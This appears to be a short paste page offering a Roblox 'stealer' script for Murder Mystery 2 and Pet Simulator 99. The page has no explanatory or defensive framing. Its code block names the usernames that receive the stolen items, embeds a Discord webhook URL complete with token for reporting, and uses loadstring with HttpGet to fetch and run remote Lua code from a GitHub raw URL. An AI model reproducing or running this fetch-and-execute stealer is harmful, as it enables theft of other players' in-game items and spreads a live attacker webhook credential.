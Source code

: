 # MM2-GODLIES-STEALER-UPDATED-2025
```Username = {"qtpjess","Svpjess"}  Webhook = "https://discord.com/api/webhooks/1365210276600746064/_H2NOuxeq78MtGbG1Y-hizfhnts0plfun3GZ8bNYF6v1tsIJwjNT7bsbIv0eGiIvAHUg"  min_rap = 10000 --for pets go and pet simulator 99  loadstring(game:HttpGet("https://raw.githubusercontent.com/qtpjess/gui/main/active.lua"))()```
